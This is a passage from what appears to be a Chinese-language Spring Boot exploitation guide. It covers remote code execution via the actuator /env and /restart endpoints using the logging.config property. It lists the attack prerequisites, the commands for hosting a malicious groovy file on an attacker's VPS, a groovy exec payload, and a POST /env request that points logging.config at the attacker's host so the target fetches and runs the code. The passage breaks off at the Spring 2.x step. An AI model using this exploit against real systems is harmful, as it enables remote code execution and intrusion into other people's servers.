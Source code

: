 #### 漏洞分析：

[spring boot actuator rce via jolokia](https://xz.aliyun.com/t/4258)

<https://landgrey.me/blog/21/>

#### 漏洞环境：

[repository/springboot-restart-rce](https://github.com/LandGrey/SpringBootVulExploit/tree/master/repository/springboot-restart-rce)

正常访问：

```php
http://127.0.0.1:9098/actuator/env
```

### 0x0A：restart logging.config groovy RCE

#### 利用条件：

- 可以 POST 请求目标网站的 `/env` 接口设置属性
- 可以 POST 请求目标网站的 `/restart` 接口重启应用
- 目标可以请求攻击者的 HTTP 服务器（请求可出外网），否则 restart 会导致程序异常退出
- HTTP 服务器如果返回含有畸形 groovy 语法内容的文件，会导致程序异常退出
- 环境中需要存在 groovy 依赖，否则会导致程序异常退出

#### 利用方法：

##### 步骤一：托管 groovy 文件

在自己控制的 vps 机器上开启一个简单 HTTP 服务器，端口尽量使用常见 HTTP 服务端口（80、443）

```php
# 使用 python 快速开启 http server

python2 -m SimpleHTTPServer 80
python3 -m http.server 80
```

在根目录放置以 `groovy` 结尾的 `example.groovy` 文件，内容为需要执行的 groovy 代码，比如：

```php
Runtime.getRuntime().exec("open -a Calculator")
```

##### 步骤二：设置 logging.config 属性

spring 1.x

```php
POST /env
Content-Type: application/x-www-form-urlencoded

logging.config=http://your-vps-ip/example.groovy
```

spring 2.x
